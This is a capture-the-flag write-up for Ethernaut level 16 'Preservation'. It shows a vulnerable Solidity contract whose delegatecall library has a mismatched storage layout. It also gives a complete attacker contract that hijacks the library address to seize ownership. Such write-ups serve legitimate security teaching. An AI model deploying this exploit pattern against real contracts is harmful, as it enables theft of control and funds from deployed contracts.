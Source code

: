 # Ethernaut 16: Preservation

This is a intro to the proxy pattern, where storage is in the proxy contract and the logic in a delegate contract. Delegatecall needs to take care of several things to be not vulnerable, therefore openzeppelin and hardhat share a couple of contacts to use.

## The Task Intro

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

- Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for delegatecall to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress;
    timeZone2Library = _timeZone2LibraryAddress;
    owner = msg.sender;
  }

  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp
  uint storedTime;

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## The Solution

```apache
contract Attack{
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
     Preservation public preservation;

    constructor(Preservation _preservation){
        preservation = _preservation;
    }

    function attack () public {
        preservation.setSecondTime(uint256(uint160(address(this))));
        preservation.setFirstTime(1);
    }

    function setTime(uint _time) public {
        owner = tx.origin;
    }
}
```

This level was already a bit more difficult than level 6. The vulnerability was clear: The library has not the same storage structure as the calling contract. If the main contract calls the library, the function stores to the storage variable `soredTime`. This is storage slot 0. Because the library gets called by delegate, this means that msg.sender, msg.value and all storage variables belong to the calling contract Preservation.

The developer made a mistake and did not replicate all other storage variable from the callee, overriding the first variable timeZone1Library.

So I can call a first time setSecondTime and pass an address of the attacker contract ;-). Then with the second call, the attacker contract will be called. I can set the tx.origin as an owner, and WON the level.

There where 2 difficulties - first msg.sender seems not to work and I needed to fall back to tx.origin. And the second difficulty was that I ran out of gas, but did not see this message in remix... But that cost me about 30 min, so its ok...

Done 🎉️.

